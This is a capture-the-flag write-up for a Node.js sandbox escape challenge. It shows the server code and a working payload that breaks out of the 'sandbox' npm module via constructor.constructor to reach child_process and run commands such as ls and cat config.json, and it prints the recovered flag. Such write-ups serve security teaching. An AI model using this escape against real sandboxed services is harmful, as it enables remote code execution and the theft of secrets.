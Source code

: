 ```yaml
---
layout: writeup
title: 'Day 10: &gt;_ Run, Node, Run'
level:
difficulty: medium
points:
categories: []
tags: []
flag: HV18-YtH3-S4nD-bx5A-Nt4G

---
```

## Challenge

Santa has practiced his nodejs skills and wants his little elves to
practice it as well, so the kids can get the web- app they wish for.

He made a little practice- sandbox for his elves. Can you break out?

Location: http://whale.hacking-lab.com:3000/

## Solution

We can enter some code in a webform and the output is returned to us

![](writeupfiles/day10-screenshot.png)

We are also given the serverside code:

    const {flag, port} = require("./config.json");
    const sandbox = require("sandbox");
    const app = require("express")();

    app.use(require('body-parser').urlencoded({ extended: false }));

    app.get("/", (req, res) => res.sendFile(__dirname+"/index.html"));
    app.get("/code", (req, res) => res.sendFile(__filename));

    app.post("/run", (req, res) => {

    	if (!req.body.run) {
    		res.json({success: false, result: "No code provided"});
    		return;
    	}

    	let boiler = "const flag_" + require("randomstring").generate(64) + "=\"" + flag + "\";\n";

    	new sandbox().run(boiler + req.body.run, (out) => res.json({success: true, result: out.result}));

    });

    app.listen(port);
{: .language-js}

So the value we want is in a variable with a random name
`flag_<64randomchars>`. So we either need to get it to spit out all
variable names, or break out of the sandbox and print `boiler`, hmmm

We play around a bit but nothing obvious:

    >> eval(6+6)
    12

    >> Object.keys(this)
    [ 'print', 'console', 'process', 'postMessage' ]

    >> Object.getOwnPropertyNames(this)
    [ 'print',
    'console',
    'process',
    'postMessage',
    'Object',
    'Function',
    'Array',
    'Number',
    'parseFloat',
    'parseInt',
    'Infinity',
    'NaN',
    'undefined',
    'Boolean',
    'String',
    'Symbol',
    'Date',
    'Promise',
    'RegExp',
    'Error',
    'EvalError',
    'RangeError',
    'ReferenceError',
    'SyntaxError',
    'TypeError',
    'URIError',
    'JSON',
    'Math',
    'Intl',
    'ArrayBuffer',
    'Uint8Array',
    'Int8Array',
    'Uint16Array',
    'Int16Array',
    'Uint32Array',
    'Int32Array',
    'Float32Array',
    'Float64Array',
    'Uint8ClampedArray',
    'BigUint64Array',
    'BigInt64Array',
    'DataView',
    'Map',
    'Set',
    'WeakMap',
    'WeakSet',
    'Proxy',
    'Reflect',
    'decodeURI',
    'decodeURIComponent',
    'encodeURI',
    'encodeURIComponent',
    'escape',
    'unescape',
    'eval',
    'isFinite',
    'isNaN',
    'SharedArrayBuffer',
    'Atomics',
    'BigInt',
    'WebAssembly' ]

Then we find this github issue discussing vulnerabilities in this method
of sandboxing: https://github.com/gf3/sandbox/issues/50

So we can get RCE by inputting the following:

    >>> new Function(
    "return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())"
    )()("child_process").execSync("pwd")

    { type: 'Buffer', data: [ 47, 97, 112, 112, 10 ] }

We see that something is returned, but the output isn't very useful to
us, so we set the child process to inherit stdio from parent by setting
`{stdio: 'inherit'}`

    >>>
    new Function(
      "return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())"
    )()("child_process").execSync("pwd", {stdio: 'inherit'})

    JSON Error (data was "/app
    {"result":"null","console":[]}")

That's better! Now let's just read the config file since that will
contain our flag:

    >>>
    new Function(
      "return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())"
    )()("child_process").execSync("ls", {stdio: 'inherit'})

    JSON Error (data was "config.json
    config.json~
    docker-compose.yaml
    dockerfile
    dockerfile~
    index.html
    main.js
    node_modules
    package-lock.json
    package.json
    run.js
    {"result":"null","console":[]}")

    >>>
    new Function(
      "return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())"
    )()("child_process").execSync("cat config.json", {stdio: 'inherit'})

    JSON Error (data was "{
    "flag":"HV18-YtH3-S4nD-bx5A-Nt4G",
    "port":3000
    }

    {"result":"null","console":[]}")

